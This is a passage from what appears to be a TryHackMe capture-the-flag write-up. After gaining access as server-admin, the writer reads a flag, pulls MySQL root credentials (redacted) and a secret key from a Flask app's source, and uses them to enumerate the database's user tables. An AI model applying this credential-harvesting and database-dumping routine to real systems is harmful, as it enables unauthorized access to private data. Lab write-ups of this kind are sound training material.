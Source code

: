 ```
    inet 10.10.151.170/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2508sec preferred_lft 2508sec
    inet6 fe80::90:cbff:fe86:fd07/64 scope link 
       valid_lft forever preferred_lft forever
```

Nice!!! I'm user `server-admin`!

**`flag2.txt`:**
```
server-admin@duckyinc:~$ cat flag2.txt 
thm{Redacted}
```

**Hmm... Looks like the flag 1 is in the database?**

**After some basic enumerations, I found MySQL root credentials in `/var/www/duckyinc/app.py`, which is the Flask python app:**  
```
server-admin@duckyinc:~$ cat /var/www/duckyinc/app.py 
from flask import Flask, render_template, request, flash
from flask_sqlalchemy import SQLAlchemy
from sqlalchemy import create_engine
from flask_bcrypt import Bcrypt

app = Flask(__name__)

app.config['SQLALCHEMY_DATABASE_URI'] = 'mysql+pymysql://root:{Redacted}@localhost/duckyinc'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False

db = SQLAlchemy(app)
bcrypt = Bcrypt(app)


app.secret_key = b'_5#y2L"F4Q8z\n\xec]/'
eng = create_engine('mysql+pymysql://root:{Redacted}@localhost/duckyinc')
```

**Let's use that credentials to find the flag 1:**
```
server-admin@duckyinc:~$ mysql -uroot -p{Redacted}
[...]
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| duckyinc           |
| mysql              |
| performance_schema |
| sys                |
+--------------------+

mysql> use duckyinc;

mysql> show tables;
+--------------------+
| Tables_in_duckyinc |
+--------------------+
| product            |
| system_user        |
| user               |
+--------------------+

mysql> SELECT * FROM user;
```
